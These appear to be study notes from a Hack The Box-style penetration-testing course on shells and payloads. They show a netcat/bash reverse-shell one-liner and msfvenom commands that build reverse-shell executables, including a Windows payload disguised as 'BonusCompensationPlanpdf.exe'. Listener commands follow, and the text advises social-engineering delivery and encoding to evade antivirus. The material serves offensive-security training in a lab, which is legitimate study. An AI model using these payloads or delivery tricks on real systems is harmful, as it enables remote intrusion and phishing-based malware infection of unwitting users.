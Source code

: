 #### Netcat/Bash Reverse Shell One-liner

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```


# Automating Payloads & Delivery with Metasploit

```shell-session
meterpreter > shell
```

# Crafting Payloads with MSFvenom
to use `MSFvenom` to craft a payload and send it via email message or other means of social engineering to drive that user to execute the file.

MSFvenom also allows us to `encrypt` & `encode` payloads to bypass common anti-virus detection signatures

```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -l payloads
```

## Staged vs. Stageless Payloads
Staged
`linux/x86/shell/reverse_tcp`. When run using an exploit module in Metasploit, this payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

`Stageless` payloads do not have a stage. Take for example this payload `linux/zarch/meterpreter_reverse_tcp`. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering.

## Building A Stageless Payload
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
```shell-session
AhmaDb0x@htb[/htb]$ sudo nc -lvnp 443
```


## Building a simple Stageless Payload for a Windows system
```shell-session
AhmaDb0x@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

```shell-session
AhmaDb0x@htb[/htb]$ sudo nc -lvnp 443
```


